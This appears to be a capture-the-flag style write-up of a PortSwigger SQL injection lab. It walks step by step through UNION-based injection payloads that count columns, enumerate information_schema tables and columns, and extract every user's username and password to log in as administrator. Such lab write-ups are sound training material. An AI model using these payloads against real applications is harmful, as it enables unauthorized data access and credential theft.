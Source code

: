 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/3cf9ef5a-c9ad-4800-949d-dd81ea9b8e22)

## Solution :

Query made -- 

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

## You can list the tables that exist in the database, and the columns that those tables contain in a non-Oracle database.

### List the tables that exist in the database

```sql
SELECT * FROM information_schema.tables
```
### The columns that those tables contain

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
#### Finding out the number of columns -

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ' UNION SELECT NULL,NULL--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/91fd27bc-97c1-4bbb-a82d-9a9316a61b17)

**2 NULL** returns no error , which means there are 2 columns in the database.

####  Finding out which columns contain text data -


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'Ananthan','red' --
```
both columns contains text data .

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/812af6a7-26c7-44db-9d2d-95bad1bfe428)


### Database contents-

#### Display the table present in the database-

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT table_name,NULL FROM information_schema.tables--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/3264a60f-b42b-4bbe-8e32-8287d0000f60)


#### Display the column present in the database-

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_xtnjul'--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/f389cc99-a5f5-43fd-a0b0-12ce138e257b)

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/f2ff7eeb-59de-4259-811e-98274f44f627)

#### Retreive information from the columns username_wknxhc&password_jodrot from the table users_xtnjul -


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT username_wknxhc,password_jodrot FROM users_xtnjul--
```
Now we get the username and password of all users.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/08c71d5f-3634-4436-94f6-4f62aab40afc)

Successfully logged in administrator.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/49b0ee8c-b50e-49d5-b446-82dc4ffe9689)





